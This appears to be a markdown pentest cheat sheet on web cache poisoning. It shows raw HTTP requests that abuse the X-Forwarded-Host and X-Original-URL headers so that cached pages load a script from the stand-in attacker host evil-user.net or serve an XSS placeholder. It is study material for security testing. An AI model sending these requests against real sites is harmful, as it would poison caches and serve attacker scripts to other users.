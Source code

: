 # Web Cache Poisoning

> Web cache poisoning is an advanced technique whereby an attacker exploits the behavior of a web server and cache so that a harmful HTTP response is served to other users.

>Fundamentally, web cache poisoning involves two phases. First, the attacker must work out how to elicit a response from the back-end server that inadvertently contains some kind of dangerous payload. Once successful, they need to make sure that their response is cached and subsequently served to the intended victims.

>A poisoned web cache can potentially be a devastating means of distributing numerous different attacks, exploiting vulnerabilities such as XSS, JavaScript injection, open redirection, and so on. 

## Summary

- [Web Cache Poisoning](#web-cache-poisoning)
  - [Summary](#summary)
  - [Exploit 1](#exploit-1)
    - [Headers to test](#headers-to-test)
  - [Exploit 2](#exploit-2)
  - [References](#references)


## Exploit 1

:fire: **example :** 

**note :** 

Add a cache buster query parameter, such as `?cb=1234`
so you don't make a damage to the website

***Request***
```bash
GET / HTTP/1.1
Host: innocent-website.com
```
***Modified Request***
```bash
GET /?cb=1234 HTTP/1.1
Host: innocent-website.com
```

**to see if this website is vulnerable** 

Add X-Forwarded-Host header with an arbitrary hostname, such as `evil-user.net`

***Request***
```bash
GET / HTTP/1.1
Host: innocent-website.com
User-Agent: Mozilla/5.0 Firefox/57.0
```

***Response:***

```bash
HTTP/1.1 200 OK
<script src="https://innocent-website.com/static/analytics.js"></script>
```

***Modified Request:***

```bash
GET / HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: evil-user.net
User-Agent: Mozilla/5.0 Firefox/57.0
```

***Response:***

```bash
HTTP/1.1 200 OK
<script src="https://evil-user.net/static/analytics.js"></script>
```

Replay the request and observe that the response contains the header `X-Cache: hit`. This tells us that the response came from the cache.

### Headers to test

```bash
X-Host
X-Forwarded-Host
```
## Exploit 2 

**lets say there is multiple languages in the website and the only vulnerable page is the spanish version 'ES'**

**We can use another trick to make the user visit the spanish version**

:fire: **Example :**

***Request***
```bash
GET /lang=EN HTTP/1.1
Host: innocent-website.com
```
***Response***
```bash
HTTP/1.1 200 OK
…

<body>
<h1>Hello World!<h1>
</body>
```

***Modified Request***
```bash
GET /lang=EN HTTP/1.1
Host: innocent-website.com
X-Original-URL: /lang=ES
```
***Response***
```bash
HTTP/1.1 200 OK
…

<body>
<h1>Hola Mundo!<h1>
#<script> XSS HERE </script>
</body>
```
## References
* [Portswigger](https://portswigger.net/web-security/web-cache-poisoning/exploiting)
